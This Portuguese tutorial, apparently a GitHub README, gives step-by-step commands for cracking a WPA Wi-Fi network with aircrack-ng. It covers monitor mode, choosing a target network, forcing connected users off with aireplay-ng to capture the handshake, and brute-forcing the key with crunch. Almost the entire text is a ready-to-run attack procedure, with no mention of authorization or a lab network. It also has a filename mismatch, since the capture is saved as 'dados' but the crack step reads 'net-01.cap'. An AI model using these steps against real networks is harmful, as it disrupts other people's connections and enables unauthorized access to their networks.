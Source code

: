 <h1>Prática Ubuntu</h1>
<p>
Instale o aircrack-ng:
</p>

<p>
<pre><code>sudo apt-get update
sudo apt-get install aircrack-ng
</code></pre>
</p>

<p>
Verificar o nome da sua interface Wi-FI:
</p>

<p>
<pre><code>iwconfig
</code></pre>
</p>

<p>
Após verificar o nome da interface, deve-se verificar se o Ubuntu está reconhecendo o driver da interface sem fio:
</p>

<p>
<pre><code>sudo airmon-ng
</code></pre>
</p>

<p>
verificar se tem algum processo que pode acabar atrapalhando o processo de captura de pacotes:
</p>

<p>
<pre><code>sudo airmon-ng check kill
</code></pre>
</p>

<p>
Vamos colocar nossa placa de rede em modo monitor:
</p>

<p>
<pre><code>sudo airmon-ng start [nome_da_sua_interface_wireless]
iwconfig
</code></pre>
</p>

<p>
Quando a placa estiver pronta para monitorar, podemos ver quais são as redes disponíveis para nossos possíveis ataques.
</p>

<p>
<pre><code>sudo airodump-ng [nome_da_sua_interface_wireless]
</code></pre>

<p>
Após selecionar a rede alvo, utilizaremos algumas de suas informações. Você pode guardá-las em um bloco de notas. As informações são as seguintes:<br />
</p>
<ul>
<li><strong>BSSID:</strong> <em>Basic Service Set Identifier</em> se refere ao endereço MAC de um adaptador sem fio ou de um ponto de acesso.Sua função é identificar exclusivamente um ponto de acesso que enviará sinais pra transmissão da rede sem fio.</li>
<li><strong>CH:</strong> Canal na qual a rede está operando.</li>
<li><strong>ESSID:</strong> nome que é visível na rede.</li>
</ul>

<p>
Agora que temos a rede alvo, iremos monitorá-la usando algumas das informações adquiridas que guardamos em um bloco de notas anteriormente. É importante que pelo menos 300 pacotes de dados tenham passado pela rede para garantir que o <strong>WPA HANDSHAKE</strong> seja capturado.
<p>
<pre><code>sudo airodump-ng -c [canal_da_rede_alvo] --bssid [bssid_da_rede_alvo] -w dados
</code></pre>
</p>

<p>
Hora de capturar o tão esperado WPA HANDSHAKE. Para que seja capturado, é preciso que alguém se conecte à à rede. Há duas opções: você espera a oportunidade que algum usuário se conecte ou você pode desautenticar quem já está conectado e capturar o WPA HANDSHAKE logo que o usuário se reconectar. Usaremos a segunda opção!
<p>
<pre><code>sudo aireplay-ng -0 10 -a [bssid_da_rede_alvo] [nome_da_sua_interface_wireless]
</code></pre>
</p>

<p>
Verificar o <strong>WPA HANDSHAKE</strong> capturado no arquivo criado anteriormente na execução do comando de captura. No caso deste tutorial, o arquivo criado recebeu o nome “dados”. Dê o seguinte comando no seu diretório atual:
</p>
<pre><code>ls
sudo aircrack-ng net-01.cap
</code></pre>
</p>

<p>
Caso não já tenha instalado, será necessário a instalação do programa crunch:
</p>
<p>
<pre><code>sudo apt-get update
</code></pre>
</p>
<p>
<pre><code>sudo apt-get install crunch
</code></pre>
</p>

<p>
Hora de quebrar no Brute Force:
</p>
<p>
<pre><code>sudo crunch [min] [max] [padrão] | aircrack-ng [net-01.cap] -w - -e [essid_da_rede_alvo]
</code></pre>
</p>

<p>
Você também pode usar o seguinte comando, caso deseje começar a busca a partir de uma determinada combinação dentro padrão.
</p>
<p>
<pre><code>sudo crunch [min] [max] [padrão] -s [combinação] | aircrack-ng [net-01.cap] -w - -e [essid_da_rede_alvo]
</code></pre>
<p>
Ao final, temos de reativar o nosso network-manager pois ao usar o comando check kill ele o desativa.
</p>

<p>
<pre><code>sudo service network-manager start
</code></pre>
</p>
